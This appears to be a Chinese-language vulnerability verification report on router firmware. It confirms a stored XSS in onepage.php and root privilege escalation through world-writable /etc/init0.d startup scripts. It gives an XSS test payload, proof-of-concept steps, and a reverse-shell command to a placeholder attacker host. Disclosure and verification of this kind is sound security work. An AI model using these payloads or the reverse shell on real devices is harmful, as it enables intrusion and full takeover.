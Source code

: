 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `Medium`
- **详细原因：** 警报描述准确：在 'onepage.php' 文件的 OnClickSave 和 OnConnecting 函数中，用户输入的 SSID 和密码值未转义直接赋值给 innerHTML，导致存储型XSS。攻击者模型：已登录用户通过 WiFi 客户端连接（is_wifi_client == 1）。完整攻击链验证：1) 输入可控：攻击者可在 SSID 或密码字段注入恶意 JavaScript（如 '<script>alert("XSS")</script>'); 2) 路径可达：攻击者点击保存或连接按钮触发函数；3) 实际影响：恶意脚本在用户浏览器中执行，可窃取会话 cookie 或重定向用户。PoC 步骤：a) 以已登录用户身份通过 WiFi 连接设备；b) 在设置向导的 SSID 或密码字段输入恶意载荷；c) 点击保存或连接按钮；d) 脚本执行。风险为 Medium，因需用户交互和特定网络条件，但影响严重。

## 验证指标

- **验证时长：** 264.41 秒
- **Token 使用量：** 328109

---

## 原始信息

- **文件/目录路径：** `etc/init0.d/rcS`
- **位置：** `rcS:行号未指定，但关键代码在 'for i in /etc/init0.d/S??* ; do ... $i start' 循环中`
- **描述：** 在 'rcS' 脚本中，通过循环执行 /etc/init0.d/ 目录下的所有 S??* 脚本（'$i start'），但由于这些脚本具有全局可写权限（777），非root攻击者可以修改或添加恶意脚本。当系统启动或 rcS 以 root 权限运行时，这些脚本会被执行，允许攻击者注入任意代码并提升权限。触发条件包括系统启动或服务重启。攻击者只需登录设备，修改 /etc/init0.d/ 中的任意脚本（如 S80telnetd.sh），添加恶意命令（如反向 shell 或后门），然后等待或触发重启。约束条件是攻击者需要文件系统访问权限，但基于证据，目录和文件均为可写。
- **代码片段：**
  ```
  for i in /etc/init0.d/S??* ; do
  	# Ignore dangling symlinks (if any).
  	[ ! -f "$i" ] && continue
  	# run the script
  	#echo [$i start]
  	$i start
  	# generate stop script
  	echo "$i stop" > $KRC.tmp
  	[ -f $KRC ] && cat $KRC >> $KRC.tmp
  	mv $KRC.tmp $KRC
  done
  ```
- **备注：** 基于 ls 输出，/etc/init0.d/ 目录和所有脚本文件权限为 777，表明非root用户可写。rcS 通常以 root 权限运行，因此执行脚本时具有高特权。建议进一步验证 /var/killrc0 文件的权限和生成过程，但当前攻击链已完整。关联文件包括 /etc/init0.d/ 下的所有脚本（如 S80telnetd.sh）。后续分析应检查其他启动脚本和服务交互。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确：/etc/init0.d/ 目录和所有脚本文件权限为 777（证据来自 ls -la 输出），rcS 脚本包含循环执行 S??* 脚本的代码（证据来自 cat 输出）。攻击者模型是非root用户具有文件系统访问权限（例如，通过 SSH 登录或本地 shell）。漏洞可利用：攻击者可以修改任意脚本（如 S80telnetd.sh）添加恶意命令，当系统启动或 rcS 以 root 权限运行时，恶意代码被执行，导致权限提升。完整攻击链：1. 攻击者登录设备（非root用户）；2. 修改 /etc/init0.d/S80telnetd.sh，添加反向 shell 命令（例如：'/bin/sh -i >& /dev/tcp/attacker_ip/4444 0>&1 &'）；3. 等待系统重启或触发 rcS 执行（例如，通过重启服务）；4. rcS 以 root 权限运行修改后的脚本；5. 攻击者获得 root shell。证据支持所有步骤，无阻碍因素。

